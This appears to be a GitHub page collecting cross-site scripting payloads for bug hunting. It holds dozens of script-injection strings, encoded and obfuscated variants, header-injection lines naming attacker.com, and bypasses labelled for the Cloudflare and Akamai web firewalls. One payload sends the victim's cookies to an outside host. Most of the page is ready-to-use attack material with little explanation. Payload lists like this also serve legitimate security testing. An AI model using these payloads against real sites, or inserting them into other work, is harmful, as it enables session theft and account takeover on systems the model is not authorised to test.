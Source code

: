 # Custom XSS Payloads
```javascript
<img src=123><img src=123><a href="javascript:alert(document.domain)">xss</a><svg></svg><img src=1>
\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e
<script /***/>/***/confirm(document.cookie,document.domain)/***/</script /***/
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
<svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}
<a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(document.domain,document.cookie)&NewLine;>X</a>
<iframe onload="javascript:prompt(document.domain)" id="hello" role"world">Hello google
"><script>alert(String.fromCharCode(66, 108, 65, 99, 75, 73, 99, 101))</script>
returnuri=%09Jav%09ascript:alert(document.domain)
var onskeywords = 'hello';onload=prompt(0);
"hello" onmouseover=prompt(0) world=""
test"t"\t/t%3Ct%3Et
"â™ˆ<<sVg/onloadâ™ˆ=/svg/onload=svg/onmouseOver=confirm'1'><!--â™ˆ//="
/><svg src=x onload=confirm(document.domain);>
<script>alert(String.fromCharCode(88, 115, 115, 32, 66, 121, 32, 79, 108, 100, 77, 111, 104, 97, 109, 109))</script>
<svg/onload=alert(document.domain)>")
<<!<script>iframe src=javajavascriptscript:alert(document.domain)>
"><svg onload=alert`XSS`>
foo style=animation-name:gl-spinner-rotate onanimationend=alert(1)  -- apply this in profile name section
">svg onx=() onload=(location.href='<BIN>/?mycookies='+document['cookie'])()>
<a"/aonclick=(confirm)()>click
😎<<svg/onload😎=/svg/onload=svg/onmouseOver=confirm'1'><!--😎//="
onhashchange=setTimeout;
Object.prototype.toString=RegExp.prototype.toString;
Object.prototype.source=location.hash;
location.hash=null
'-(a=alert,b="_Yooo!_",[b].find(a))-'
%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E
<svg%09%0a%0b%0c%0d%0a%00%20onload=alert(1)>
<iframe src=%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)">
<script%20~~~>\u0061\u006C\u0065\u0072\u0074''</script%20~~~>
<svg onload='new Function'["_Y000!_"].find(al\u0065rt)''>
<sCRipT>alert(1)</sCRiPt>
<script>%0aalert(1)</script>
<scr<script>ipt<alert(1);</scr<script>ipt>
<input onfocus="alert('xss');" autofocus>
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pi&Tab;pt&Tab;alert&lpar;1&rpar;">
<svg•onload=alert(1)>
<script>alert?.(document?.domain)</script>
"<>onauxclick<>=(eval)(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>+<sss
<x/onpointerRawupdate=confirm%26Ipar;1)//x
<script src=//⑮.₨></script>
img{background-image:url('javascript:alert()')}
<svg/onload=eval(atob('YWxlcnQoJ1hTUycp'))>
TestPayload&lt;/a&gt;&lt;a href="javascript:alert(1)"&gt;ClickHere&lt;/a&gt; 
<img src=`xx:xx`onerror=alert(1)>
<div/onmouseover='alert(1)'> style="x:">
\";alert('XSS');//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
"><img class="emoji" alt="😯" src="x" /><svg
">'><details/open/ontoggle=confirm(1337)>
%<script>3cscript%<script>3ealert(1)%<script>3c/script%<script>3e
<input disabled=disabled onbeforecopy=alert(1) value=copyme>
</textarea><img src=x onerror=”var pop=’ALERT(document.cookie);’; eval(pop.toLowerCase());”
</script><script>alert('xElkomy')</script>
OnMoUsEoVeR=prompt(/hacked/)//
<b onmouseover=alert('Wufff!')>click me!</b>
"><script>propmt("mamunwhh")</script>
"><script>alert(document.cookie)</script>
/><svg src=x onload=confirm("1337");>
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
```
## XSS via Reflected Headers
```http
X-Original-URL: https://attacker.com/
X-Original-URL: test//test\
X-Original-URL: https:\\samcurry.net/please//work
True-Client-IP: <h1>XSS</h1></center><script>alert(document.domain)</script>
```
## XSS payload with Alert Obfuscation, for bypass RegEx filters
```js
<img src="X" onerror=top[8680439..toString(30)](1337)>
```

## Logical assignment operators in JavaScript
```js
window&&=(window&&=opener||=alert)?.(1??0,)
```
## Which results alert(1)
```js
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```
## RXSS
```js
%22%3Cimg%2F**%2Fsrc%3D%22x%22%2F**%2Fonx%3D%22%22%2F**%2Fonerror%3D%22alert%60xss%60%22%3Ef9y60 --encoded
"<img/**/src="x"/**/onx=""/**/onerror="alert`xss`">f9y60 --decoded
OnMoUsEoVeR=prompt(/hacked/)//
```

## Clourflare XSS bypass
```js
<a"/onclick=(confirm)()>Click Here!
%2sscript%2ualert()%2s/script%2u
<svg onload=alert%26%230000000040"1")
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
```

## When you find input field which allows " (quotes), try this payload:
```js
"autofocus onfocus=alert(1)//
```
-> Doesn't work

**Try this**
```js
"type%3d"text"autofocus%20onfocus%3d"alert(1)"
```
-> Works

## Akami WAF XSS Bypass
```js
xhzeem*/eval?.(value+/()/.source)//"><input value=confirm autofocus onfocus='/*"
```
![img](https://pbs.twimg.com/media/EyDDoO7WYAEJMr6?format=jpg&name=small)

Limited case Akamai WAF bypass
```js
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>
```
Works in cases where double quotes are escaped 

`<xhzeem/x=\" ....>`

can also work with single quotes (change it in the payload)
![img](https://pbs.twimg.com/media/Ex-cjUQXIAIRw-y?format=jpg&name=small)

## Stored XSS
```js
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
```

## XSS via xml
```xml
<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(document.domain)</a:script>
```

